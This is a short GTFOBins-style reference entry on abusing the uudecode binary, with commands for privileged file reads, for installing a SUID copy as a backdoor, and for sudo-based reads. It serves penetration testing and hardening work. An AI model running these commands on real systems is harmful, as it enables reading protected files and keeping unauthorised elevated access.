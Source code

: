 # GTFOBin: uudecode

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
uuencode "$LFILE" /dev/stdout | uudecode
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which uudecode) .

LFILE=file_to_read
uuencode "$LFILE" /dev/stdout | uudecode
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo uuencode "$LFILE" /dev/stdout | uudecode
```